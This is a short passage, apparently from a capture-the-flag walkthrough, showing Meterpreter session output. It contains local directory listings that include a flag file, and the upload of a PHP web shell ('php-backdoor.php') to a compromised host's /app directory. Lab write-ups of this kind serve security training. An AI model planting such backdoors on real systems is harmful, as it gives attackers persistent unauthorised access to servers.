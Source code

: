```
meterpreter > lpwd
/root
meterpreter > lls
Listing Local: /root
====================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100644/rw-r--r--  570   fil   2017-10-30 12:46:42 +0000  .bashrc
40700/rwx------   4096  dir   2023-02-09 09:52:33 +0000  .cache
40755/rwxr-xr-x   4096  dir   2023-02-09 10:05:55 +0000  .msf4
40755/rwxr-xr-x   4096  dir   2019-05-26 16:35:23 +0000  .npm
100644/rw-r--r--  148   fil   2017-10-30 12:46:42 +0000  .profile
100644/rw-r--r--  13    fil   2019-02-07 07:54:01 +0000  .vimrc
100644/rw-r--r--  165   fil   2019-05-26 16:35:28 +0000  .wget-hsts
100644/rw-r--r--  293   fil   2019-02-07 07:54:01 +0000  README
40755/rwxr-xr-x   4096  dir   2019-05-26 16:36:00 +0000  tools
40755/rwxr-xr-x   4096  dir   2019-02-07 07:54:01 +0000  wordlists
```

```
meterpreter > lpwd
/root
meterpreter > lls
Listing Local: /root
====================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100644/rw-r--r--  570   fil   2017-10-30 12:46:42 +0000  .bashrc
40700/rwx------   4096  dir   2023-02-09 09:52:33 +0000  .cache
40755/rwxr-xr-x   4096  dir   2023-02-09 10:05:55 +0000  .msf4
40755/rwxr-xr-x   4096  dir   2019-05-26 16:35:23 +0000  .npm
100644/rw-r--r--  148   fil   2017-10-30 12:46:42 +0000  .profile
100600/rw-------  863   fil   2023-02-09 10:16:50 +0000  .viminfo
100644/rw-r--r--  13    fil   2019-02-07 07:54:01 +0000  .vimrc
100644/rw-r--r--  165   fil   2019-05-26 16:35:28 +0000  .wget-hsts
100644/rw-r--r--  293   fil   2019-02-07 07:54:01 +0000  README
100644/rw-r--r--  208   fil   2018-10-06 05:19:22 +0000  flag5.zip
100644/rw-r--r--  22    fil   2018-10-06 05:17:21 +0000  list
40755/rwxr-xr-x   4096  dir   2019-05-26 16:36:00 +0000  tools
40755/rwxr-xr-x   4096  dir   2019-02-07 07:54:01 +0000  wordlists

meterpreter > lcd tools
meterpreter > lpwd
/root/tools
```

```
meterpreter > pwd
/app
meterpreter > upload /usr/share/webshells/php/php-backdoor.php
[*] uploading  : /usr/share/webshells/php/php-backdoor.php -> php-backdoor.php
[*] Uploaded -1.00 B of 2.73 KiB (-0.04%): /usr/share/webshells/php/php-backdoor.php -> php-backdoor.php
[*] uploaded   : /usr/share/webshells/php/php-backdoor.php -> php-backdoor.php
```

The remained steps are same.

